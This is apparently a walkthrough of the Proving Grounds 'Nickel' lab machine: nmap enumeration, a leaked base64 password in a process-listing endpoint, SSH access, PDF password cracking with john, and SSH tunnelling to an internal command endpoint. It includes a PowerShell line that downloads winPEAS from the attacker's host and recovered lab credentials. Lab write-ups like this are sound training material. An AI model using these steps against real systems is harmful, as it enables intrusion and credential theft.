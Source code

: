 ```yaml
---
title: Proving-Ground-Nickel-Walkthrough
author: "RealFakeAccount"
date: "2022-06-18"
tags: ProvingGround
---
```


# Nickel

## Foothold

### Enumeration

```
Nmap scan report for 192.168.121.99
Host is up (0.019s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-18T20:30:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2022-06-17T20:16:10
|_Not valid after:  2022-12-17T20:16:10
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-06-18T20:29:03+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)
```

Nmap shows 8089 and 33333 are http page.

Looking through 8089 page, it seems to send request to 33333 page.

If we visit 33333 page directly, it's `Invalid Token`

If we try to query the resource that we find in 8089,
for example, `http://192.168.121.99:33333/list-current-deployments`
then we get 

```html
<p>Cannot "GET" /list-current-deployments</P>
```

emmm.. Cannot "GET".

Therefore we send the payload to burpsuite and try to post it:

```
POST /list-current-deployments HTTP/1.1
Host: 192.168.121.99:33333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

test
```

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-17-14-13.png)

We get not implemented.

I tried to wfuzz it and see if I can replace the data field of post so I can get more information.

```bash
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -d "FUZZ" --filter "chars!=22" http://192.168.121.99:33333/list-current-deployments
```

It didn't work.

### Break Through

But if we request another resource, `/list-running-procs`, it works.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-17-17-09.png)

We can see here we have a password passed through command line.

It seems to be base64 encoded. Decode it, and we get: `NowiseSloopTheory139`

We can login through ssh using the credential we found: `ariah:NowiseSloopTheory139`

Finally, we can find local.txt on the ariah's Desktop.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-17-19-22.png)

## Privilege Escalation

Upload winpeas using:

```ps1
(New-Object Net.WebClient).DownloadFile("http://192.168.49.121/winPEASx64.exe","C:\Users\ariah\Downloads\w.exe")
```

We find a pdf file in the `C:/ftp` folder, but it needs a password.

We crack it with john. First use `pdf2john` to generate hash, then use `john` and `rockyou` to crack it.

the password is `ariah4168`.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-08-01.png)

A `Temporary Command endpoint` exists on the server.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-02-55.png)

We also find that the 80 port is actually open. I suspect it's only accessable from internal network. That's why we didn't see it in the nmap scan.

Tunnel through using ssh:

```bash
ssh -N -L 0.0.0.0:80:192.168.121.99:80 ariah@192.168.121.99
```

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-04-16.png)

We can easily grab the proof.txt file.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-06-10.png)

Time cost: 2 hours 30 minutes